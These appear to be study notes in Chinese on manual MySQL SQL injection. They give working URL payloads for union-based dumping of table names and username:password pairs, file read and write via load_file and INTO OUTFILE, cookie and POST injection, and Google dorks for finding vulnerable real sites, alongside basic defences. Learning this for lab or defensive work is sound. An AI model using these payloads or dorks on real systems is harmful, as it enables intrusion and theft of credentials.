## SQL injection


（也可在用戶可輸入的地方，如form，加入非法SQL語句，從而進行非法SQL操作）

數據庫服務器層級關係：

服務器裡面

​	多個數據庫

​		多個數據表

​			多個行和列

​				*數據*

一層一層拿到最底層的數據

## 系統庫

​	•	提供獲取數據庫元數據的方式

​	•	猶如數據庫的身份證

​	•	有4個：Information_schema, Performance_schema, mysql, sys

SQL語句回顧

查詢當前數據庫服務器所有的數據庫

show databases;



use information_schema;

show tables;




## union 查詢

select * from t1 where is=-1 union select * from t1 where pass=111;

❗️即使前面查不到也不影響出現後面的結果

❗️前面與後面的語句return的column要一致

## order by

用來查詢表的column數目

**以第一個column作排序**

select * from t1 order by 1

**以第二個column作排序**

select * from t1 order by 2

…
**如果打到5報錯**

select * from t1 order by 5

❗️表示只有4個column

## Information_schema庫

​	⁃	是信息數據庫

​	⁃	Web滲透過程中作用很大

​	⁃	❗️schemata表、tables表、columns表



use information_schema;

select * from SCHEMATA;



select table_name from TABLES;



select column_name from COLUMNS;




## SQL注入

數據庫類型：
 	1.	MySQL
 	2.	MSSQL
 	3.	Oracle
 	4.	Access
 	5.	其他

前端頁面提交方式：
	1.	GET
	2.	POST
	3.	COOKIE
	4.	REQUEST
	5.	HTTP header
	6.	其他

數據類型：
	1. 數字型
	2. 字符型
	3. 其他

查詢方法：
	1.	select
	2.	insert
	3.	delete
	4.	update
	5.	order by

## 瀏覽器數據提交
Get: 利用url, 速度快, 不敏感的數據
 (IE數據長度限制2083bits)
Post: 利用server, 更安全 數據量更大

## 手工注入：
	1.	❗️判斷有無注入點 （數字型方法如下）
	•	?id=1 and 1=1
	⁃	數據正常顯示 有注入點
	•	?id=1 and 1=2
	⁃	報錯 有注入點, 沒報錯 沒注入點
	2.	猜解列名數量 order by
	•	order by 1
	•	order by 2
	•	order by 3
	•	order by 4 (error)
	•	總共有3 columns
	3.	報錯，判斷回顯點 union
	•	?id=-1 union select 1,2,3
	
	4.	信息收集
	‼️數據庫版本 version()
	高版本：5.0以上 有系統庫 information_schema
	低版本：5.0以下

‼️當前數據庫名 database()

	5.	使用對應SQL進行注入
在url填寫： ‼️無需分號

查詢當前數據庫內的table名
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()

可見有‼️users這個table

查詢users的column名
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273
‼️分號裡面用0x加16進制 (users)
‼️=符號前後沒有空格


查詢users表內數據
?id=-1 union select 1,(select group_concat(username,0x3a,password) from users),3
❕0x3a是冒號


SQL注入之高權限注入
最高權限：root
多個網站共享一個database server

假如A出現漏洞，可以利用它去訪問在同一個伺服器上的數據庫B（前提是要有高權限)



‼️顯示當前用戶
?id=-1 union select 1,user(),3
用戶root@localhost

MySQL權限
mysql中存在4个控制權限的表
分别為user表，db表，tables_priv表，columns_priv表

user: 記錄user權限
db: 記錄對db的操作權限
tables_priv: 記錄對表的操作權限
columns_priv: 記錄對column的操作權限

最高權限的是user表

mysql權限表的驗證過程為
	先從user表中的Host,User,Password這3個字段中判斷連接的ip、用戶名、密碼是否存在，存在則通過驗證。
	通過身份認證後，進行權限分配，
	按照user，db，tables_priv，columns_priv的順序進行驗證。
	即先檢查全局權限表user，如果user中對應的權限為Y，則此用戶對所有數據庫的權限都為Y，
	將不再檢查db, tables_priv, columns_priv；如果為N，則到db表中檢查此用戶對應的具體數據庫，
	並得到db中為Y的權限；如果db中為N，則檢查tables_priv中此數據庫對應的具體表，取得表中的權限Y，以此類推。

查看mysql 有哪些用户
mysql> select user,host from mysql.user;

查看用户對應權限
select * from user where user='root' and host='localhost'\G; 
所有權限都是Y ，就是甚麼權限都有

\G代表將row垂直表示

創建 mysql 用戶
 有兩種方式創建MySQL授權用戶
1️⃣執行create user/grant命令（推薦方式）
 CREATE USER 'user'@'localhost' IDENTIFIED BY 'password';
2️⃣通過insert語句直接操作MySQL系統權限表
❗️新創建用戶沒有任何權限
💡進入root帳號給予user權限
	⁃	GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost' WITH GRANT OPTION;



文件讀寫注入
高版本的MYSQL添加了一個新的特性secure_file_priv，該選項限制了mysql導出文件的權限

可在以下文件貼上secure_file_priv=‘’
❗️默認沒有secure_file_priv
❗️phpstudy重啟連接才會生效

Win my.ini

Linux my.cnf


cmd mysql> show global variables like ‘%secure%’
設定前

設定後


代表讀寫無限制 secure_file_priv=
代表不能進行讀寫secure_file_priv=NULL

設定後可以讀取文檔
select load_file('C:/phpstudy_pro/Extensions/MySQL5.7.26/my.ini');
❗️斜桿，單引號或使用0x16進制


‼️難點在於獲取文件路徑
常見路徑


路徑獲取方式：
報錯
在google搜尋inurl:edu.mo warning

遺漏文件 可以看到php配置
在google搜尋inurl:phpinfo.php

SQL文件注入
?id=-1 union select 'hack','your','brain' into outfile 'c:/yo.txt'--+
‼️--+用作注釋之後sql字段

SQL基礎防禦
1️⃣魔術引號 或 addslashes()
	⁃	在單引號 雙引號 反斜線 與 NUL等加上反斜號，使SQL注入無效
	⁃	在❗️php.ini設定magic_quotes_gpc =on
	⁃	缺點：或會影響開發

2️⃣is_int($id)
	⁃	在後端程式加上檢查是否integer語法
	⁃	防止注入string

3️⃣關鍵字過濾
	⁃	利用str_replace()將select replace掉

4️⃣WAF軟件防護

SQL注入之數據類型
	1.	數字型數據
	•	?id=1 and 1=1
	⁃	數據正常顯示 有注入點
	•	?id=1 and 1=2
	⁃	報錯 有注入點, 沒報錯 沒注入點
	

	2.	字符型數據

id被代入為'1 and 1=2'，SQL會過濾1之後的字符，因此會正常顯示id=1的數據不會報錯，無法判斷是否有注入點
‼️字符型判斷方法：
?id=1' 加入單/雙引號，報錯 有注入點

💡google搜尋inurl: php?id=

	3.	搜索型數據
like 模糊查詢
% % 通配符

‼️方法：
?username=y%’ or 1=1#

💡or 1=1的功效：顯示所有結果

	4.	其他型數據
有其他閉合符號 ‘ “ ) } %

SQL注入之數據提交方式
	1.	Get方式注入
get注入方式比較常見，主要是通過url中傳輸數據到後台，帶入到數據庫中去執行，可利用聯合注入方式直接注入
場景
	⁃	數據不敏感
	⁃	安全性不高
	⁃	長度有限2kb
	⁃	速度非常快

	2.	Post方注入 (sqli-labs Less-11)
利用BurpSuite抓包進行重放修改內容進行，和get差別是需要借助抓包工具進行測試，返回結果主要為代碼，也可轉化為網頁顯示
場景
	⁃	安全性高
	⁃	長度不限
	⁃	速度不快


抓包工具可以顯示post的parameter

	3.	Cookie提交 (sqli-labs Less-20)
在php中獲取cookie值
$c=$_COOKIE['s'];

好處：能繞過POST的check_input

利用Burp Suite修改header值，在此進行SQL injection
